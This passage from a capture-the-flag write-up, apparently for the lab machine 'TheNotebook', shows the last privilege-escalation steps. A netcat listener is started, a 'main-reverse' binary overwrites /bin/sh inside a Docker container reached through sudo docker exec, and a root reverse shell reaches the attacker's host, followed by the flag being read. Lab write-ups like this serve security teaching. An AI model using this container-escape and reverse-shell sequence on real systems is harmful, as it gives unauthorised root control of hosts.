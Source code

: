 
We spawn a `netcat` listener...

```bash
joshua@kaligra:~$ nc -nvlp 5555
listening on [any] 5555 ...
```

On the other shell, as user `noah`, we are ready with the command:

`sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh`

**ATTENTION: not /bin/bash, but /bin/sh **

Within the container:

```bash
root@8eeb30b468ae:~# chmod +x main-reverse
root@8eeb30b468ae:~# ./main-reverse
[+] Overwritten /bin/sh successfully
```

we run again our command

`sudo /usr/bin/docker exec -it webapp-dev01 /bin/sh`


## root flag

...and we receive our root shell!

```bash
joshua@kaligra:~$ nc -nvlp 5555
listening on [any] 5555 ...
connect to [10.10.14.43] from (UNKNOWN) [10.10.10.230] 34756
bash: cannot set terminal process group (5696): Inappropriate ioctl for device
bash: no job control in this shell
<a8a374def0a71c9bde2bebb58ddd60e24aa5bd3324e685a32# id
id
uid=0(root) gid=0(root) groups=0(root)
root@thenotebook:/root# cat root.txt
cat root.txt
a228fdff4410748f7exxxxxxxxxxxxxxxxxxxxxxxxxx
```

